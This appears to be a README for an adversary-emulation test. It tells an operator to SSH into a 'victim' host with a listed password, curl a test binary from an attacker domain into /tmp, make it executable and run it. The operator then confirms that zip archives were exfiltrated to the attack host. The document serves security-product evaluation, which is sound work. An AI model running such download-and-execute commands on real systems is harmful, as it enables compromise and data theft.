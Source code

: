 ### :hammer: Setup

* Ensure the Simple File Server handler is enabled and running from your Kali
attack host `corsair (223.246.0.70)`

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, open
Powershell and SSH into the victim host `lisa (10.222.25.65)` as
`sonicbeats37.fm\sooyoung` using the following command:

    ```bash
    ssh sooyoung@10.222.25.65
    ```

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | lisa.sonicbeats37.fm | sonicbeats37.fm\sooyoung | Dental-Crew |

* Execute the following command in your terminal to download the test
binary from the attacker server:

    ```cmd
    curl --output "/tmp/test3" http://c4sh-m0n33y.fr/files/test3
    ```

* Change directories to the directory containing the `test3` binary.

    ```cmd
    cd /tmp
    ```

* Change the binary to be executable

    ```cmd
    chmod +x test3
    ```

### :biohazard: Procedures

* Execute the test binary.

    ```cmd
    ./test3
    ```

* Check the control server log to ensure that the zip archives were uploaded to
the attack host.

* :camera: Screenshot the end state of the test and any command/application output (If a block occurred screenshot any alert/prompt).

### :broom: Cleanup

* From the `/tmp/` directory, run the following command to remove the created
zip files and executable from the victim host, and check that everything has
been successfully removed.
